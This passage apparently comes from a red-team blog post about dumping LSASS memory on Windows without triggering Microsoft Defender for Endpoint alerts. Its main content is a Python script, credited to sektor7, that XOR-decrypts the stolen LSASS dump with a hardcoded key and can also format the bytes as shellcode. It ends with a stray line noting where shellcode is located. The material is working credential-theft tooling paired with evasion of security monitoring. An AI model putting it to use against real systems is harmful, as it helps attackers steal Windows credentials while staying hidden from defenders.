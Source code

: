 
Noting for any alerts, no new alerts are found:

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230823180840.png)

Finally retrieve and decrypt the LSASS dump using this python script.

```
# author: reenz0h (twitter: @sektor7net)

import sys
from itertools import cycle

key = bytearray("jisjidpa123","utf8")
filename = "LSASS_DECRYPTED.DMP"

try:
    data = bytearray(open(sys.argv[1], "rb").read())
except:
    print("File argument needed! %s <raw payload file>" % sys.argv[0])
    sys.exit()

if len(sys.argv) > 2 and sys.argv[2] == "1":
    print("len: {}".format(len(data)))
    print('{ 0x' + ', 0x'.join(hex(x)[2:] for x in data) + ' };')
    sys.exit()
xord_byte_array = bytearray(len(data))
if len(sys.argv) > 2 and sys.argv[2] != "1":
    filename = sys.argv[2]

f = open(filename, "wb")

l = len(key)
for i in range(len(data)):
    current = data[i]
    current_key = key[i % len(key)]
    xord_byte_array[i] = current ^ current_key

f.write(xord_byte_array)
f.close()

print("XORed output saved to \"{}\"".format(filename))
print("Xor Key: {}".format(key.decode()))
sys.exit()
```


[+]: Shellcode located at c7160